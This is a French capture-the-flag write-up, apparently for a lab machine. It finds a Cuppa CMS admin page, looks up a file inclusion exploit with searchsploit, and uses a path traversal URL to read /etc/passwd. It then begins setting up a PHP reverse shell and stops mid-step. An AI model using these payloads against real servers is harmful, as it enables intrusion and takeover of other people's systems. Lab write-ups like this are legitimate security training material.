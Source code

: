 Go se rendre sur la page : http://10.10.61.62/45kra24zxs28v3yd/administrator

Oh un CMS ! Est-ce qu'une vulérabilité est dispo dessus ?

```
searchsploit cuppa                                                             
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion                                                                                                                                           | php/webapps/25971.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- --------------------------------- 
```
Let's goo ! Go l'exploiter en téléchargeant l'exploit : 

``` searchsploit -m 25971.txt ```

L'exploit nous dit que : 

*An attacker might include local or remote PHP files or read non-PHP files with this vulnerability. User tainted data is used when creating the file name that will be included into the current file. PHP code in this file will be evaluated, non-PHP code will be embedded to the output. This vulnerability can lead to full server compromise.*
 
*TRADUCTION* 

*Un attaquant peut inclure des fichiers PHP locaux ou distants ou lire des fichiers non-PHP avec cette vulnérabilité. Des données altérées par l'utilisateur sont utilisées lors de la création du nom de fichier qui sera inclus dans le fichier courant. Le code PHP contenu dans ce fichier sera évalué, le code non-PHP sera intégré à la sortie. Cette vulnérabilité peut conduire à la compromission totale du serveur.*

Ce qui veut dire qu'une RFI est possible (Réponse 2). 

Pour cela, il faut se rendre sur l'adresse suivante : "http://10.10.61.62/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd" 
(les explications de cette addresses sont donnés dans le fichier de l'exploit") 

On peut voir qu'on a accès au fichier /etc/passwd ! 

Bon, pour aller plus vite on va utiliser un revershell en php qu'on uploadera sur la machine via l'URL 

1. On télécharge un script pour executer un revershell :
```
https://pentestmonkey.net/tools/web-shells/php-reverse-shell
``` 
```
1. On modifie l'IP et le port dans le fichier 
